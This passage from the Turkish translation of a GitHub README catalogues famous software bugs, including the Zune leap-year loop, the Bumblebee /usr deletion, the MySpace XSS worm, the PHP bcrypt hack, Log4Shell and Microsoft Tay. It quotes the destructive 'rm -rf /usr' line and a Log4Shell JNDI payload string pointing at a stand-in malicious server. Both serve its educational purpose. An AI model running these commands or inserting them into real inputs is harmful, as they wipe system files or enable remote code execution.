Bu solucan, kötü amaçlı yazılımların gerçek tehdidi konusunda bir kamu bilinci yarattı ve antivirüs yazılımı sağlayıcıları altın bir dağıtım çağına girdi. Buna ek olarak, birçok kişinin klasik virüs dağıtım sistemleri olan e-postalara karşı daha şüpheci olmasına yardımcı oldu.

Ek kaynaklar:

- [Wikipedia'da ILOVEYOU](https://en.wikipedia.org/wiki/ILOVEYOU)
- [ILOVEYOU hatasından on yıl sonra](https://www.bbc.com/news/10095957)

### Zune Bug

> 30GB Zunes sahipleri için kıyamet günü geldi ...
>
> [ArsTechnica](https://arstechnica.com/information-technology/2008/12/30gb-zunes-prepare-for-new-year-by-locking-up/)

31 Aralık 2008'de birçok Zune Player sahibi, oyuncunun donmaya başladığını bildirmeye başladı. Microsoft'un yanıtı, ertesi güne kadar beklemekti ve donma kendi kendine çözülecekti. Nedeni, artık yıllarda sonsuz döngüye neden olan basit bir döngüydü. Artık yıllar düşünülmeden kodlanmış basit bir döngü kontrol ifadesi bu karışıklığa neden oluyordu.

İşte sorunlu döngü;

```bash
year = ORIGINYEAR;
while (days > 365)
{
    if (IsLeapYear(year))
    {
        if (days > 366)
        {
            days -= 366;
            year += 1;
        }
    }
    else
    {
        days -= 365;
        year += 1;
    }
}
```

Ek kaynaklar:

- [Zune Hatası](http://bit-player.org/2009/the-zune-bug)

### Unutulmuş Boşluk Karakteri

> Büyük hata... /usr klasörü siliniyor... kusura bakmayın....
>
> [MrMEEE](https://github.com/MrMEEE/bumblebee-Old-and-abbandoned/issues/123#issuecomment-1226289)

[Bumblebee](https://github.com/Bumblebee-Project/Bumblebee), Nvidia Optimus özellikli dizüstü bilgisayarların GNU/Linux sistemleriyle çalışmasını sağlayacak bir projedir. 24 Mayıs 2011'de kurulum betiğinin _/usr/_ klasörünü sildiğine bildiren bir [hata kaydı](https://github.com/MrMEEE/bumblebee-Old-and-abbandoned/issues/123) açıldı. Hatanın sebebi yanlış yazılmış ve unutulmuş bir boşluk karakteriydi. Hatanın etkisi çok can yakıcıydı çünkü kurbanın işletim sistemini yeniden kurması gerekiyordu. [Hata kaydı](https://github.com/MrMEEE/bumblebee-Old-and-abbandoned/issues/123) hala ilgi çekiyor. Baktığınızda güncel yorumları görürsünüz (7 Mart 2021).

```bash
....
rm -rf /usr /lib/nvidia-current/xorg/xorg
....
```

### Rachel True'nun iCloud'da Yaşadığı Problem

> Aplle iCloud'da bu hatayla karşılaşan başka birileri var mı? Eskiden karşılaşan ya da şimdi karşılaşan? ...
>
> [Rachel True](https://twitter.com/RachelTrue/status/1365461618977476610)

Rachel True iCloud'a giriş yaparken bir hata ile karşılaştığını Twitter'da paylaştı. Bu hata büyük ihtmalle iCloud'ın "True" olan soyadını boolean bir değer olarak işlediği için ortaya çıkıyor olabilir. Paylaşımında 6 aydır giriş yapamadığını ve problemin 27 Şubat 2021'de hala geçerli olduğunu belirtti. Tweet çok popüler olduğu için muhtemelen iCloud ekibinin dikkatini çekmiştir ve sorun kısa sürede çözülecektir.

Bu aslında çok sık görülen ve basit bir hata, çünkü yazılımcılar kodlama yaparken kullanılan değerlerinin tiplerinin kontrol edilmesinin ne kadar önemli olduğunu unutmaya meyillidirler. Bu duruma verebileceğimiz diğer örnekler;

- [Jesse Self](https://twitter.com/JesseSelf720/status/1368247643827281926)
- [Hello, I'm Mr. Null. My Name Makes Me Invisible to Computers](https://www.wired.com/2015/11/null/)

### MySpace Solucan (Samy Solucanı)

> Myspace birçok etiketin kullanılmasını engelliyor. Aslında bazılarına da izin veriyor ... vermemesi gerekenlere nazılarına da izin vermiş olabilir ...
>
> [Technical explanation of The MySpace Worm](https://samy.pl/myspace/tech.html)

MySpace Solucanı [Samy Kamkar](https://en.wikipedia.org/wiki/Samy_Kamkar) tarafından yazılmış XSS temelli ve bir sosyal ağ olan MySpace üzerinde yayılması için tasarlanmış bir solucandır. Solucan görece zararsız olmasına rağmen Kamkar internet erişimi olmayan tek bir bilgisayar kullanabileceği üç yıllık bir denetimli serbestlik ve birkaç farklı cezaya çarptırıldı. Bu solucan ve hikayesi XSS açıklarının nelere sebep olabileceğini gösteren güzel bir öernek olabilir.

Ek kaynaklar;

- [The MySpace Worm](https://samy.pl/myspace/)

### Şifre Hash İşlemini Bozan "PHP Hack" Problemi

> crypt_blowfish algoritmasında PHP'ye özel yapılan bir değişiklikten kaynaklandı ...
>
> [Phpmagazine](https://phpmagazine.net/2023/03/the-phphack-that-broke-password-hashing.html)

```C
if (tmp == '$') break; /* PHP hack */ \
```

"salt" kısımlarında $ içeren hatalı biçimlendirilmiş BCrypt şifreleri, arabelleğin yanlış (buffer overread) okunmasını tetikleyerek herhangi bir şifreyinin yanlışlıkla geçerli olarak doğrulanabilmesini sağlıyordu. Dolayısıyla bu durum uygulamalarda güvenlik açıklarına neden oldu.

Hata ve düzeltilmesi, programlama topluluğu arasında farklı programlama dillerinin yararları ve bunların güçlü ve zayıf yönleri hakkında birçok tartışmaya yol açtı.

Ek kaynaklar;

- [https://bugs.php.net/bug.php?id=81744](https://bugs.php.net/bug.php?id=81744)
- [https://github.com/php/php-src/security/advisories/GHSA-7fj2-8×79-rjf4](https://github.com/php/php-src/security/advisories/GHSA-7fj2-8×79-rjf4)

### Log4Shell - İnterneti Çökertebilecek Güvenlik Açığı

> Dünyadaki tüm Java uygulamaları etkilenebilir. %10'u bile büyük bir problem olur. Bu felaket olur.
>
> [Christian Grobmeier, Log4j geliştiricisi](https://github.blog/open-source/inside-the-breach-that-broke-the-internet-the-untold-story-of-log4shell/)

Aralık 2021'de bir güvenlik araştırmacısı, dünya çapında milyonlarca uygulama tarafından kullanılan yaygın bir Java günlük kütüphanesi olan Log4j'de kritik bir güvenlik açığı keşfetti. Log4Shell (CVE-2021-44228) olarak adlandırılan bu açık, mümkün olan en yüksek puan olan 10 CVSS puanı aldı. Saldırının uygulanması korkutucu derecede basitti: saldırganlar, kullanıcı adları, arama kutuları ve hatta Minecraft sohbet mesajları gibi günlüğe kaydedilen herhangi bir girdi alanına kötü amaçlı bir JNDI dizesi enjekte ederek uzaktan kod çalıştırabiliyorlardı.

Bu güvenlik açığı, Log4j'nin Java Naming and Directory Interface (JNDI) aracılığıyla uzak sunuculardan yazılım bileşenlerini yükleme özelliğini istismar ediyordu, ancak kütüphane bu lookup dizelerinin güvenilir kaynaklardan gelip gelmediğini doğrulamıyordu. `${jndi:ldap://malicious-server.com/exploit}` gibi basit bir dize tüm sistemleri tehlikeye atabiliyordu.

Log4Shell, Fortune 500 şirketleri, devlet sistemleri ve Minecraft gibi popüler uygulamalar dahil olmak üzere milyarlarca cihazı etkiledi. Bu olay, kritik açık kaynak altyapısını sürdürmenin gizli insan maliyetini ortaya çıkardı, çünkü gönüllü geliştiriciler kendilerini internetin yarısını etkileyen bir güvenlik açığını yamalamakla sorumlu buldular. Bu kriz, kritik açık kaynak projelerini daha iyi desteklemek ve güvence altına almak için GitHub Secure Open Source Fund gibi girişimlere yol açtı.

Ek kaynaklar:

- [Log4Shell'in anlatılmamış hikayesi](https://github.blog/open-source/inside-the-breach-that-broke-the-internet-the-untold-story-of-log4shell/)
- [Log4Shell güvenlik açığı](https://en.wikipedia.org/wiki/Log4Shell)

## AI

### Microsoft Tay Chatbot (2016)

> Tay: Microsoft urkçı chatbot fiyaskosu yüzünden özür diledi
>
> [BBC](https://www.bbc.com/news/technology-35902104)

Microsoft Tay adında Twitter platformunda kullanıcılarla etkileşime giren bir chatbot yayınladı. Bir kaç saat gibi bısa bir süre içinde Tay Twitter'daki zehirli kültürden etkilenerek saldırgan ve ırkçı yorumlar yapmaya başladı. Olay, çevrimiçi etkileşimleri sorumlu bir şekilde yönetebilen yapay zeka sistemlerinin tasarlanmasındaki zorlukları gözler önüne serdi.

## Çeviriler

Bu belge birkaç dilde mevcuttur.

| Dil                                                                                   | Çeviren                                 |
| ------------------------------------------------------------------------------------- | --------------------------------------- |
| [🇹🇷 Türkçe / Türkçe](https://github.com/umutphp/famous-bugs/blob/master/README-tr.md) | [Umut Işık](https://github.com/umutphp) |

Bir çeviriyi güncellemek veya yeni bir dil eklemek isterseniz, [bir PR açmanız yeterlidir](https://github.com/umutphp/famous-bugs/pulls) .

## Katkıda Bulunmak İçin

Lütfen katkıda bulunun! :pray:

Bir hata bildirmek için ya da ekleme yapılması için [Issue](https://github.com/umutphp/famous-bugs/issues/new) açın. Kendiniz yapmak isterseniz [pull request](https://github.com/umutphp/famous-bugs/pulls) açabilirsiniz.

Lütfen [Katkıda Bulunma Kuralları](./.github/contributing.md) ve [Davranış Kuralları](./.github/CODE_OF_CONDUCT.md) belgelerini okuyun.
